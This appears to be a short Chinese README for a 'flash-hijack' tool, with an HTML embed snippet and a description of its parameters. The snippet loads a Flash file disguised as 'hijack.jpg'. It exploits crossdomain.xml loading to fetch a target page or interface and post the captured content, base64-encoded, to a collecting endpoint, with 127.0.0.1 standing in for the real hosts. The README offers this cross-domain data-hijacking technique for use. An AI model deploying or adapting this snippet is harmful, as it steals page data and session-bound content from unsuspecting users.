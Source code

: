 # flash-hijack
flash 劫持轮子

使用：
HTML：

<div> 
<embed src="hijack.jpg?jpg=http://127.0.0.1/1.png&get=http://127.0.0.1/l.php&post=http://127.0.0.1/2.php" width="970" height="107" quality="high" pluginspage="http://www.macromedia.com/go/getflashplayer" type="application/x-shockwave-flash" wmode="transparent"></embed> 
</object> 
</div>

参数说明:

jpg：域下的图片（为了优先加载crossdomain.xml，否则劫持的接口加载太慢会导致无法劫持）

get：劫持的接口或者页面

post：接收劫持过来的页面为base64传输

文章:https://zhuanlan.zhihu.com/p/67484852
